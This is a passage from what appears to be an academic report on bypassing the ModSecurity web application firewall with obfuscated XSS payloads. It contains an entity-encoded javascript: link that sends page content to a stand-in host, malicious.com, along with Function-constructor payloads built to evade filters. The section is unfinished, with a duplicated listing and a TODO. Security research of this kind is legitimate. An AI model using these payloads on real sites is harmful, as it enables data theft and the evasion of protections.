 \subsection{Multi Iteration Evaluation}
This chapter states the evaluation results of multiple iterations of application of an evasion technique to the specified payloads. If a considerable (from the perspective of the author of this work) bypass was found, the result will be detailed. Evaluation results of finally blocked requests are referred to in attachment.


Combination of <a> with javascript in href injection, HTML ascii encoding, tagged template literals (line breaks for readability)
\begin{lstlisting}[style=basicStyle]
<a href=j&#97v&#97script&#x3A;
var&#32secret&#32=&#32document.getElementsByName("name")[0]&#46innerHTML;
var&#32data&#32=&#32&#123body:secret,method:'POST'\};
fetch`https:\//malicious.com:3001/api/ping?secret=querysecret$&#123data\}`>ClickMeFor$</a>
\end{lstlisting}

\begin{itemize}
	\item Using function constructor to evade eval() detection
	\item supplying the argument via tagged template literal to avoid () characters
	\item the 'a' in front of the template in the template string to avoid an error that is thrown if the first parameter in a multi parameter call to the function constructor is not a valid javascript parameter
	\item using string replace to avoid supplying the full sequence of 'alert' and to replace () characters
\end{itemize}

theoretically a payload without () is possible like this but it turns out that passing a template literal string with \verb|${...}| syntax is being flagged as unix command injection

\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}


tried to encode the  payload:
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
[][`constructor`][`constructor`]`a${`al` + [open + []][0][11] + `rt` + [open + []][0][13] + [`"`][0] + `XSS` + [`"`][0] + [open + []][0][14]}```
\end{lstlisting}
with unicode and html, even the weird unicode. but the modsecurity waf decodes both and blocks TODO

